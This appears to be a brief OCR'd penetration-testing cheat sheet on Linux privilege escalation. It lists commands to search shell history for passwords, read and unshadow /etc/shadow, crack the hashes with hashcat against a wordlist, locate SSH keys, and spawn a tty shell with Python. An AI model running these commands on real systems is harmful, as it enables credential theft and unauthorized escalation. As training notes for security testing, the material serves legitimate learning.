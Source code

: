 
GTFOBins
**/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh**

**cat ~/.bash_history | grep -i passw**
**ls -la /etc/shadow**
**unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt**

**hashcat -m 1800 unshadowed.txt rockyou.txt -O**


**find / -name authorized_keys 2> /dev/null**
find / -name id_rsa 2> /dev/null 

**Always go for a tty shell if you have a worse shell if possible**

use a command like [(see here)](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
